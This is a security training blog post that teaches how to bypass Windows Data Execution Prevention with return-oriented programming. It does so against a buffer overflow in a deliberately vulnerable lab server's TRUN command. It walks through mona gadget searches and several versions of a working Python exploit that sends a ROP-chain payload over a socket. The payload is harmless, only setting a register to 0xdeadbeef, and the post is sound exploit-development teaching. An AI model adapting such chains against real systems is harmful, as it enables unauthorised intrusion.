:slug: bypassing-dep/
:date: 2020-08-24
:category: attacks
:subtitle: Running instructions by reference
:tags: osee, training, exploit
:image: cover.png
:alt: Photo by Michael Dziedzic on Unsplash
:description: This post will show how bypass the Data Execution Prevention security mechanism using Return-Oriented Programming.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/pM9pkc9J918

= Bypassing DEP with ROP

In the link:../understanding-dep/[past blog entry], we made an introduction
to what `DEP` (Data Execution Protection) is and how it affected common
buffer overflow exploits.

In this post, we will show a way to bypass `DEP` using Return-Oriented
Programming or `ROP`.

== Return-Oriented Programming (ROP)

When we are writing an exploit to a buffer overflow vulnerability on an
application without `DEP`, we overwrite the saved instruction pointer on the
stack frame of the affected function with a pointer to something like
`JMP ESP` (or any other register pointing to our shellcode) and then put
a shellcode on the stack which is finally executed when the `JMP ESP` is
performed.

When we perform a `JMP ESP` (or any other general purpose register),
the program expects to find *instructions* on the address pointed to `ESP`.
With `DEP`, we can't execute instructions on the stack,
but we still control the execution flow, and that is because we write on
the `Saved EIP` of the stack frame.

But what would happen if, instead of overwriting the `Saved EIP` with
a pointer to `JMP ESP`, we overwrite it with a pointer to a `RETN`
instruction? The `RETN` instruction is commonly used in the function epilogues
and will make one thing: Pop the value pointed by `ESP` and use it as the
next instruction pointer or `EIP`. In other words, `RETN` expects to find
on the address pointed to `ESP`, a *pointer to a instruction*, not an
*instruction* itself.

As we control the execution flow and also can write on the stack, we can
do whatever we want. Let's find a `RETN` instruction first:

[source,bash]
----
!mona find -type instr -s "retn" -p 10 -o
----

This will tell `mona` to find 10 `RETN` instrunctions. The result is:

image::retn1.png[RETN instructions]

Let's take the first one at `62501022` and update the exploit of the
link:../understanding-dep/[previous post]. This time we want to make `EAX`
have the value `0xdeadbeef`:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see what happens:

image::rop1.gif[RETN]

Here's a detail of what happened:

. We put a breakpoint at the address of the `RETN` instruction.
. We executed the exploit.
. The breakpoint was hit.
. When it hits, look carefully at the value pointed by `ESP`: `EE05C031`
. That value is part of the shellcode injected:
.. `xor eax,eax` -> `\x31\xc0`
.. `add eax,0xdeadbeee` -> `\x05\xee\xbe\xad\xde` (the first two bytes)
. When the `RETN` instruction is executed that value `EE05C031` is stored on
`EIP`.

What it means is that we can replace the `EE05C031` bytes with a pointer that
will become the next instruction to be executed!

In our exploit, we want to make `EAX` = `0xdeadbeef` using three
instructions: `xor eax,eax`, `add eax,0xdeadbeee` and `inc eax`. Let's check
if we can find a pointer to the first:

image::find1.gif[RETN]

We could find one at `62501162` that points to `xor eax,eax`.
Let's update our exploit and place that address instead of
the `xor eax,eax` instruction:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 62501162  |.  31C0                  XOR EAX,EAX
    struct.pack('<L', 0x62501162) +
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::rop2.gif[ROP]

Wonderful! Here's what happened:

. The pointer to the `RETN` instruction was reached.
. When the `RETN` ran, it retrieved the value pointed by `ESP` and updated
`EIP` with that.
. In our case, that value was a pointer to a `xor eax,eax` instruction.
. With that, the `xor eax,eax` was successfully executed! We bypassed DEP!

However, there's a problem with that. If you look again at the animation,
the execution flow was diverted to the location on where the `xor eax,eax`
instruction was placed but then, we lost control.

We need to make `EAX = 0xdeadbeee`. There are several ways to do that. We
tried with `xor eax,eax -> add eax,0xdeadbeee` but another way to do it
is to place the value `0xdeadbeee` on top of the stack and then perform a
`pop eax`. We also need regain control of the execution flow. To do that,
we need to to return back to the stack, so we can execute the last
instruction on our shellcode `inc eax` and thus, make `EAX = 0xdeadbeef`.
That means that we need to find an address to a `pop eax` instruction followed
by a `retn`.

image::popeax1.gif[POP EAX]

Bingo! We found it at `625011B4`. Now you see why this is called
Return-Oriented Programming? It is because we need to always return back to
the stack to fetch the next pointer to our next desired instruction.
For the record, any instruction or set of instructions
followed by a `retn` is called a *Gadget* in `ROP` terms.

Our `pop eax # retn` gadget rely on the stack having the value `0xdeadbeee`
on the top. Let's update our exploit with that:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::popeax2.gif[POP EAX]

Beautiful! We were able to make `EAX = 0xdeadbeee` using `ROP`. Now, the final
step is to find a `inc eax` pointer to make `EAX = 0xdeadbeef`.

image::inceax.png[INC EAX]

We found one at `00402139`. As this is the last instruction of our shellcode,
the NULL byte won't affect the exploit. Let's update the code:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    # 00402139   .  40                    INC EAX
    struct.pack('<L', 0x00402139) +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::rop3.gif[ROP]

Success! We were able to make `EAX = 0xdeadbeef` without executing a single
instruction on the stack! We have bypassed `DEP`!

== Using mona to find gadgets

You may notice by now that finding useful gadgets could become something
really tedious. Fortunately for us `mona` has made this task easy.
You just need to simply issue the following:

[source,bash]
----
!mona rop
----

And wait for `mona` do the hard work:

image::mona1.gif[Mona ROP]

With that, `mona` will find usable gadgets on the execution environment.
A file called `rop.txt` is placed on the `mona` directory of the debuggee
application containing all the gadgets found. `mona` also generates
proposal of something called `ROP chains`, which is nothing but a set of
ROP gadgets chained together to perform something more complex. I won't spoil
the next blog entry, but ROP chains will be used later on a more
serious exploitation.

== Conclusions

In this article, we could see a way to bypass the Data Execution Protection
on a modern Windows system. However, the shellcode used here was very basic
and was only for demonstrating the fact that `DEP` can be bypassed.
We will use ROP to create something more complex in the next post.
